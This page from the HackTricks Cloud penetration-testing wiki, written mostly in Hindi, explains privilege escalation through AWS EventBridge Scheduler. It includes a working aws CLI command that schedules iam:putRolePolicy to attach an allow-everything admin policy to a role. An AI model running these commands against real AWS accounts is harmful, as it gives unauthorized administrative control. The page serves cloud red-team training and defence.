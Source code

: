 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler का उपयोग विभिन्न AWS सेवाओं के लिए कॉल शेड्यूल करके विशेषाधिकार वृद्धि के लिए किया जा सकता है। इसके शेड्यूल के आधार पर सेवाओं को सक्रिय करने की क्षमता का लाभ उठाकर, पर्याप्त अनुमतियों वाले उपयोगकर्ता विशेषाधिकार बढ़ा सकते हैं। यहाँ कुछ प्रमुख क्रियाएँ हैं जिन्हें EventBridge Scheduler टेम्पलेटेड लक्ष्यों का उपयोग करके ट्रिगर कर सकता है:

- Lambda: lambda:InvokeFunction - शेड्यूल पर Lambda कार्यों को सक्रिय करें।
- CodeBuild: codebuild:StartBuild - AWS CodeBuild परियोजनाएँ शुरू करें।
- CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipeline निष्पादन को ट्रिगर करें।
- ECS: ecs:RunTask - ECS कार्य चलाएँ।
- EventBridge: events:PutEvents - EventBridge में घटनाएँ डालें।
- Inspector: inspector:StartAssessmentRun - Amazon Inspector आकलन शुरू करें।
- Kinesis: kinesis:PutRecord - Kinesis धाराओं में रिकॉर्ड डालें।
- Firehose: firehose:PutRecord - Firehose डिलीवरी धाराओं में रिकॉर्ड डालें।
- SageMaker: sagemaker:StartPipelineExecution - SageMaker पाइपलाइन निष्पादन शुरू करें।
- SNS: sns:Publish - SNS विषयों पर संदेश प्रकाशित करें।
- SQS: sqs:SendMessage - SQS कतारों में संदेश भेजें।
- Step Functions: states:StartExecution - AWS Step Functions के निष्पादन शुरू करें।

ये केवल कुछ टेम्पलेटेड क्रियाएँ हैं जो EventBridge Scheduler कर सकता है। हालाँकि, सार्वभौमिक लक्ष्यों का उपयोग करके, AWS सेवाओं के बीच कई अन्य क्रियाएँ सक्रिय की जा सकती हैं। सार्वभौमिक लक्ष्य टेम्पलेटेड सूची से परे अधिक व्यापक API संचालन की अनुमति देते हैं।

EventBridge Scheduler के बारे में अधिक जानकारी के लिए:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

उपयोगकर्ता जिनके पास `sts:AssumeRole`, `iam:PassRole`, और `scheduler:CreateSchedule या scheduler:UpdateSchedule` अनुमतियाँ हैं, वे EventBridge Scheduler का लाभ उठाकर उच्च विशेषाधिकार वाली भूमिका का उपयोग करके विशेषाधिकार बढ़ा सकते हैं।

इन अनुमतियों के साथ, एक हमलावर उच्च विशेषाधिकार वाली भूमिका ग्रहण कर सकता है और शेड्यूल बनाते या अपडेट करते समय उस भूमिका को EventBridge Scheduler को पास कर सकता है। शेड्यूल को पहले सूचीबद्ध किसी भी क्रिया को करने के लिए कॉन्फ़िगर किया जा सकता है, जैसे Lambda कार्यों को सक्रिय करना, ECS कार्य शुरू करना, CodePipeline निष्पादन को ट्रिगर करना, या EventBridge Scheduler द्वारा समर्थित 270 AWS सेवाओं में से किसी भी ऑपरेशन को करना। इन क्रियाओं को शेड्यूल करके, एक हमलावर उच्च विशेषाधिकार का दुरुपयोग करके AWS सेवाओं में अनधिकृत संचालन कर सकता है।
\\

उदाहरण के लिए, वे शेड्यूल को एक Lambda कार्य को सक्रिय करने के लिए कॉन्फ़िगर कर सकते हैं जो एक टेम्पलेटेड क्रिया है:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
EventBridge Scheduler में टेम्पलेटेड सेवा क्रियाओं के अलावा, आप कई AWS सेवाओं के लिए API संचालन को सक्रिय करने के लिए यूनिवर्सल टारगेट का उपयोग कर सकते हैं। यूनिवर्सल टारगेट लगभग किसी भी API को सक्रिय करने के लिए लचीलापन प्रदान करते हैं। एक उदाहरण "AdminAccessPolicy" जोड़ने के लिए यूनिवर्सल टारगेट का उपयोग करना हो सकता है, एक भूमिका का उपयोग करते हुए जिसमें "putRolePolicy" नीति है:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
